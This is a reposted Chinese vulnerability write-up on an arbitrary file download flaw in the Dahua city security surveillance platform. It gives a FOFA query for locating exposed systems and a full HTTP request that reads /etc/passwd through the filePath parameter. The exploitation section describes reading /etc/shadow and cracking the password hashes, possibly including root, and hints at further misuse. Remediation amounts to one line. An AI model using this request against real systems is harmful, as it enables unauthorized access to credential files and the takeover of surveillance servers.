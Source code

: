 # 转载
：  漏洞复现--大华城市安防系统平台任意文件下载

# 漏洞复现--大华城市安防系统平台任意文件下载

**目录**

[免责声明：](#%E5%85%8D%E8%B4%A3%E5%A3%B0%E6%98%8E%EF%BC%9A)

[一：漏洞描述](#h2-1)

[二:漏洞影响版本](#h2-2)

[三：网络空间测绘查询](#h2-3)

[四：漏洞复现](#h2-4)

[五：漏洞利用](#h2-5)

[六：修复方案](#h2-6)

---


## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！**

### 一：漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件。

### 二:漏洞影响版本

-大华城市安防系统

### 三：网络空间测绘查询

fofa语句：

```
app="dahua-DSS"

```

### 四：漏洞复现

POC:

```
GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```

<br/>  

<br/> 成功读取etc/passwd

### 五：漏洞利用

用户密码存放在etc/shadow下，读取etc/shadow<br/>  

<br/> 拿去cmd解密<br/> guest<br/>  

<br/> ftp<br/>  

<br/> 运气好的话root密码可以破解。<br/> 点到为止，拿到密码后可以干什么懂得都懂，这里也是不演示了

### 六：修复方案

自行查询厂商发布补丁
